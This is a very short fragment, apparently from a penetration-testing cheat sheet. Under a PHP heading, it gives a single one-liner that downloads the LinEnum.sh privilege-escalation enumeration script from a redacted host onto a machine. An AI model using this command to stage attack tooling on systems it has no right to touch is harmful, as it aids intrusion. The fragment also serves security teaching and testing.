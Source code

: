 # PHP

### 1) 

    php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'	
